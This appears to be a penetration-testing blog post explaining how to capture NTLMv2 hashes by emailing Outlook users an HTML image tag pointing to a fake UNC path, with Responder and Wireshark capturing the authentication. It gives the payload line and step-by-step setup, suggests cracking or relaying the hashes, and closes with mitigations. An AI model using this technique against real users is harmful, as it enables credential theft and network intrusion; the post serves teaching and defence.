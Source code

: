 ```yaml
---
title:  "Getting that first Foothold - Stealing NTLMv2 hashes with ease"
header:
  teaser: "/assets/images/ntlmb2_captured.png"
categories:
  - NTLMv2 hashes
tags:
  - NTLMv2
  - hashes
  - Responder
  - Outlook
  - foothold
  - smb
  - llmnr
  - mdns
  - nbns
---
```


Well it's already been a month since my last post, and that's just way to long.  Time gets ahead of me these days, especially being as interested in so many areas of Infosec as I am.  Today I want to discuss a tried and true method of securing that first potential foothold on the target network for your pentest campaign.  Does this always work?  Absolutely not. However, you had better believe if certain items are in order it's highly probable you can carry this out undetected and with a few NTLMv2 hashes under your belt.

First things first, I don't want to explain what an NTLMv2 hash is.  There are copius amounts of information on the web and of course ChatGPT can elaborate even more on the specifics of the authentication challenge-response based protocol.

We are going to focus more on the actual attack methodology behind stealing these lovely hashes.  Let's start with some assumptions.  You will need at least ONE of these conditions to be true for this to work:

- Your target user base is using the Desktop Outlook client
- You know some user's company email addresses
- You are physically present, as in on the premises. OR... you are on the network via VPN, positioned in such a way that your attacker PC is on the same VLAN as the target PCs VLAN
- The target network firewall does NOT block ALL outbound ports 445, 139, 5353, and 5355 (Not entirely necessary for this write-up but just keep this in mind for later) 😺

***Stage 1 - Setup***
-

So, here's how it begins.  You will want to install this extention for Google Chrome to follow along on this particular route to get your coveted NTLMv2 hash:
[Insert HTML by Designmodo Chrome Extension](https://chrome.google.com/webstore/detail/insert-html-by-designmodo/bcflbfdlpegakpncdgmejelcolhmfkjh)

Also be sure to have **Wireshark** installed too.  In the event you are **on-site** or using **VPN**, I'd like to show you what you can see when this attack is carried out.  That will come a little later in the writeup.

Once you have both **Wireshark** and **Designmodo** installed, go to your gmail account (I'm assuming you have that too 😸 ) and create a new email message

Click on this envelope icon in the bottom, next to the big blue **Send** button: ![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f5ad0661-b401-4ee3-a5cc-b1f08d507562)

Next, type in the fake UNC path to your non-existent image: <img src="file://///silent/but/deadly.png">
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2632b2b7-e303-45cf-ba05-ad72a29e2a1d)

Then, Choose `Insert HTML`
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e38ace21-9cc9-40ea-859b-16e8943db708)

The body of your email message should have a broken image inside it, like so:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/be4c948d-2b75-4142-bff4-1c2531364bd1)

Okay, we're almost ready to send this now.  But before we do, I want you to know that the user does not even have to fully open the email for this to work.  They only merely have to **Preview** it in **Outlook** and this works immediately!

- Go ahead and fire up **Wireshark**, select your sniffing interface, and start listening for traffic...if you are on-site or using VPN and on the same VLAN as the customer user base.

- Also, we will need to load a tool called Responder which can intercept LLMNR, NBNS, and MDNS traffic.  This needs to run on the same network as the victim.

  Here's the link to the tool: [Responder for Linux](https://github.com/lgandx/Responder.git)

- Finally, you can now send that email to your target's email address and we will move on to phase 2 of the attack!

***Stage 2 - Infiltration***
-

When your email arrives, the target user will see what is captured in the below image.  Be sure to name the uncpath something realistic as they will be able to see this in the email preview:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a53ba76c-73cd-4755-9b46-ceb64d955cbf)

On your Linux Box, you should see a captured NTLMv2 hash!  Here's what mine looks like.  Keep in mind I already captured this hash so it shows a different message but trust me, it worked:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/ae4ed132-5e3c-4a2e-b2c4-c16681c02db1)

And Wireshark...

Do a Control + F and type in `silent` or whatever word you used in your UNC filepath:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5b85d79d-d9a6-4931-869b-eb8e6be80e81)

You can see your exact packet contents after the target user interacted with your email.  I say interacted...remember, they don't even need to fully open it, as in double clicking on it.  Just previewing it is enough

From here, you can crack the password using hashcat or relay it to another computer, the skies the limit!  

***Addendum***
-

You can also send the hash outside of the target company network to a device you control on an entirely different ISP, AWS, Azure, etc.  This would mean you don't have to be on-premesis at all.  HOWEVER, the company firewall MUST ALLOW the ports for these protocols outbound for you to receive the hash.

I don't have time to demo this today, but I can show you sometime if I get enough people asking for a demonstration.  😸

***Lessons Learned***
-

I tried blocking all images in Outlook and this attack still works.  I'm shocked actually.  Given the right circumstances, this is quite trivial to carry out.  Long story short:

- Disable Legacy protocols such as LLMNR, NBNS, AND MDNS.
- Use the highest available SMB/NTLM security offering.  Such as this one:** Send NTLMv2 responses only. Refuse LM & NTLM**
- Block the corresponding ports for LLMNR, NBNS, and MDNS outbound on your firewall
- Figure out how to make Outlook Desktop client better or turn off email previews 😕

  Know of other ways to combat this attack?  Feel free to comment below or hit me up on X!
  thanks everyone!

**-R.B.C.**
